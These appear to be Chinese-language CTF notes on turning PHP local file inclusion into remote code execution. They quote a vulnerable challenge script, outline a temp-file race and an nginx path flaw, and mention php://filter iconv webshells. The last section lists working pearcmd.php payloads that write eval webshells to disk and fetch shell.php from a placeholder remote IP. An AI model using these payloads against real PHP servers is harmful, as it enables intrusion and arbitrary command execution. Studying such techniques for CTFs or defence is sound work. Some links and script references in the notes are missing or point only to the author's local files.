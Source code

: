 整个题目的关键点主要是以下几点(来自 @wupco)：

1. 需要利用大文件或ftp速度限制让连接保持
2. 传入name过大 overflow output buffer，在保持连接的情况下获取沙箱路径
3. tmp文件需要在两种文件直接疯狂切换，使得第一次`file_get_contents`获取的内容不带有`<?`,`include`的时候是正常php代码，需要卡时间点，所以要多跑几次才行
4. `.well-known../files/`是nginx配置漏洞，就不多说了，用来列生成的tmp文件

贴个`[链接]()`????我链接呢,脚本在LFI/nginx里

题目

```php
<?php
declare(strict_types=1);

$rand_dir = 'files/'.bin2hex(random_bytes(32));
mkdir($rand_dir) || die('mkdir');
putenv('TMPDIR='.__DIR__.'/'.$rand_dir) || die('putenv');
echo 'Hello '.$_POST['name'].' your sandbox: '.$rand_dir."\n";

try {
    if (stripos(file_get_contents($_POST['file']), '<?') === false) {
        include_once($_POST['file']);
    }
}
finally {
    system('rm -rf '.escapeshellarg($rand_dir));
}

```

### 使用php://filter将任意文件转换成Webshell

题目

```php
<?php ($_GET['action'] ?? 'read' ) === 'read' ? readfile($_GET['file'] ?? 'index.php') : include_once($_GET['file'] ?? 'index.php');
```

万恶的iconv 脚本在`/Users/dionysus/CTF/rce/base64filter_rce.php`

### pear文件包含

```php
?file=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[1]);?>+/tmp/a.txt
  
1、下载远程文件
?file=/usr/local/lib/php/pearcmd.php&aaa+install+-R+/var/www/html/+http://远程ip/shell.php

<?php
echo "<?php system(\$_POST[1]);";

注意这里我用的是echo，而不是直接的shell，是因为这个过程是先读取文件的内容，然后再写入
/var/www/html/tmp/pear/download/shell.php

2、写入配置文件到/tmp/shell.php
?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/shell.php+-d+man_dir=<?php eval($_POST[1]);?>+-s+

3、日志配置文件写马到目录
?file=/usr/local/lib/php/pearcmd.php&aaa+config-create+/var/www/html/<?=`$_POST[1]`;?>+1.php
```
